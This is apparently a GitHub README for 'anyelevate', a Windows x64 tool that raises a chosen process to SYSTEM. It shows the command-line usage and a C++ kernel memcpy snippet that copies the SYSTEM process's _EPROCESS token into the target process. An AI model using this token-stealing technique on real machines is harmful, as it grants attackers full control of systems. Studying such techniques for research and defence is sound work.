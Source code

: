<p align="center">
<img src="image.png">
  
<img src="https://img.shields.io/github/workflow/status/kkent030315/anyelevate/MSBuild?style=for-the-badge">
<img src="https://img.shields.io/badge/platform-win--64-00a2ed?style=for-the-badge">
<img src="https://img.shields.io/github/license/kkent030315/anyelevate?style=for-the-badge">
</p>

*CI falling because of version mismatch of static library, dont care*

# anyelevate
x64 Windows privilege elevation using anycall

# Usage

```bash
anyelevate.exe [process id]
```

- `[process id]` process id to elevate privilege

# How

Simply create copy of `nt!_EPROCESS.Token` in any desired target process.

```cpp
kernel::memcpy(
    ( void* )( ( uint64_t )process + RVA_PEPROCESS_TOKEN ),
    &system_process_token,
    sizeof( EX_FAST_REF ) );
```

Then you are `NT AUTHORITY\SYSTEM`.

## License

MIT copyright Kento Oki \<hrn832@protonmail.com\>

[color-console](https://github.com/kkent030315/anyelevate/blob/main/anyelevate/color.hpp) copyright 2018 Lei Fu

